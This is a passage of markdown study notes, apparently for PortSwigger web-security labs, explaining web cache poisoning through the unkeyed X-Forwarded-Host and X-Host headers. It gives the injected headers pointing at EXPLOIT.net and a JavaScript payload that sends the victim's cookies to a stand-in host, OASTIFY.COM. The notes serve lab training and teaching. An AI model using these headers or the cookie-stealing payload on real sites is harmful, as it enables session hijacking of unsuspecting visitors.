 ## Web Cache Poison  

[Unkeyed header](#unkeyed-header)  
[Unkeyed Utm_content](#unkeyed-utm_content)  
[Cloaking utm_content](#cloaking-utm_content)  
[Poison ambiguous request](#poison-ambiguous-request)  
[Cache Poison multiple headers](#cache-poison-multiple-headers)  

### Unkeyed header  

>Target use **tracking.js** JavaScript, and is vulnerable to **```X-Forwarded-Host```** or **```X-Host```** header redirecting path, allowing the stealing of cookie by poisoning cache.
>***Identify*** the web cache headers in response and the tracking.js script in the page source code. Exploit the vulnerability by hosting JavaScript and injecting the header to poison the cache of the target to redirect a victim visiting.  

![Tracking `source code` review](images/tracking-code-review.png)  
  
```html
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
```  

![tracking.js](images/tracking.js.png)  

>Hosting on the exploit server, injecting the **```X-Forwarded-Host```** header in request, and poison the cache until victim hits poison cache.  

```
/resources/js/tracking.js
```  
  
![exploit host tracking.js](images/exploit-host-tracking-js.png)  
  
>Body send session cookie to collaboration service.  
  
```javascript
document.location='https://OASTIFY.COM/?cookies='+document.cookie;
```  

>Keep **Poisoning** the web cache of target by resending request with ```X-Forwarded-Host``` header.  

![x-cache-hit.png](images/x-cache-hit.png)  

[PortSwigger Lab: Web cache poisoning with an unkeyed header](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header)  

>Youtube video showing above lab payload on exploit server modified to steal victim cookie when victim hits a cached entry on back-end server. The payload is the above JavaScript.  

[YouTube: Web cache poisoning with unkeyed header - cookie stealer](https://youtu.be/eNmF8fq-ur8)  
  
[Param Miner Extension to identify web cache vulnerabilities](https://portswigger.net/bappstore/17d2949a985c4b7ca092728dba871943)  
  